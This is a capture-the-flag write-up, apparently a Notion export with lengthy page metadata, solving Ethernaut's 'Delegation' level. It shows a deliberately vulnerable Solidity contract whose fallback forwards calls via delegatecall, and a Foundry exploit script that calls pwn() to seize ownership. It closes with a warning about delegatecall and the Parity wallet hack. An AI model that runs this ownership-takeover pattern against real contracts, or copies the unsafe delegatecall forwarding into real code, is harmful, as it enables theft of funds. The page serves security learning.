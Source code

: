 ```yaml
---
title: "Delegation"
date: "2024-02-01"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
weight: 7
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/6"
next: "Force-79bc75128abc41f2b25e56b521833ab6"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0c005c8b-167c-4966-9267-71bad0ff918c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-14T16:51:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 7
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/6"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Force-79bc75128abc41f2b25e56b521833ab6"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Force-79bc75128abc41f2b25e56b521833ab6"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Delegation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation"
          href: null
  url: "https://www.notion.so/Delegation-0c005c8b167c4966926771bad0ff918c"
  public_url: null
UPDATE_TIME: "2024-02-23T20:55:37.145Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall`
low level function, how it works, how it can be used to delegate
operations to on-chain libraries, and what implications it has on
execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Delegation {
  function owner() external returns(address);
  fallback() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_06");

        vm.startBroadcast(deployerPrivateKey);

        Delegation delegation = Delegation(addr);

        console.logAddress(delegation.owner());

        bytes memory data = abi.encodeWithSignature("pwn()");
        (bool result, ) = address(delegation).call(data);
        if (result) {
        }

        console.logAddress(delegation.owner());


        vm.stopBroadcast();
    }
}
```


Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, 
-other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.


Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

